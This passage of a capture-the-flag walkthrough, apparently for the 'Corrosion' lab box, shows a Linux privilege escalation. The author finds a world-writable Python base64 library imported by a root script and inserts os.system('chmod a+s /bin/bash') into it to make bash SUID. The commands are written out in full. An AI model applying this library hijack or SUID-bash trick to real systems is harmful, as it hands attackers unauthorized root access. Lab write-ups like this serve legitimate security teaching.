 ```bash
randy@corrosion:/var/spool/cron$ ls -l /home/randy/randombase64.py
-rwxr-xr-x 1 root root 210 Sep 20 19:48 /home/randy/randombase64.py
```

It looks like we can only read the file, so let's check it out.

```bash
randy@corrosion:/var/spool/cron$ cat /home/randy/randombase64.py
import base64

message = input("Enter your string: ")
message_bytes = message.encode('ascii')
base64_bytes = base64.b64encode(message_bytes)
base64_message = base64_bytes.decode('ascii')

print(base64_message)
```

It doesn't look to be that exciting. Perhaps we can try to hijack the `base64` library? Let's find it and check our permissions.

```bash
randy@corrosion:/var/spool/cron$ find / -name base64.py 2> /dev/null
/snap/core18/2128/usr/lib/python3.6/base64.py
/snap/core18/2253/usr/lib/python3.6/base64.py
/snap/core20/1270/usr/lib/python3.8/base64.py
/snap/gnome-3-34-1804/77/usr/lib/python2.7/base64.py
/snap/gnome-3-34-1804/77/usr/lib/python3.6/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python2.7/base64.py
/snap/gnome-3-34-1804/72/usr/lib/python3.6/base64.py
/usr/lib/python3.8/base64.py
randy@corrosion:/var/spool/cron$ ls -la /usr/lib/python3.8/base64.py
-rwxrwxrwx 1 root root 20386 Sep 20 20:03 /usr/lib/python3.8/base64.py
```

It would appear we can write to `base64.py`! Let's try adding a piece of code that will turn `/bin/bash` into a `SUID` binary.

```bash
randy@corrosion:/var/spool/cron$ head -n15 /usr/lib/python3.8/base64.py
#! /usr/bin/python3.8

"""Base16, Base32, Base64 (RFC 3548), Base85 and Ascii85 data encodings"""

# Modified 04-Oct-1995 by Jack Jansen to use binascii module
# Modified 30-Dec-2003 by Barry Warsaw to add full RFC 3548 support
# Modified 22-May-2007 by Guido van Rossum to use bytes everywhere

import re
import struct
import binascii
import os

os.system("chmod a+s /bin/bash")
...
```
